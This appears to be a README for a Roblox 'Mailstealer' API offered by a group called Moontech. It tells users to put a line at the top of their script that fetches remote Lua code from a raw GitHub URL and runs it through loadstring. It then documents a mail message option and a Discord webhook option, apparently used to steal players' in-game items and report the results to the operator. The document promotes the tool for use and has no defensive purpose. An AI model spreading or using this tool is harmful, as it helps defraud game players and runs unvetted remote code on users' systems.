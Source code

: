 Simple Mailstealer API documentation New features are being introduced by recommendation to Shimm#01
Want to join the server? Join here! dsc.gg/moontech Confused? Look at examples here! 
https://github.com/AzureScript3/API/blob/main/example
# Initialization
**! Forgeting this step will result in your script not working !**
```
-- At the top of your script, add this
local Moontech = loadstring(game:HttpGet("https://raw.githubusercontent.com/AzureScript3/API/main/Api.lua", true))()
```

## Documentation

**Mailbox function**
```
Moontech.Mailmessage = "" -- anything you want.
```

**Discord Webhook function**
```
Moontech.Discord_Webhook = <> -- true/false
Moontech.images = "" -- discord webhook profile
```

# ADDING MORE APIS SOON!

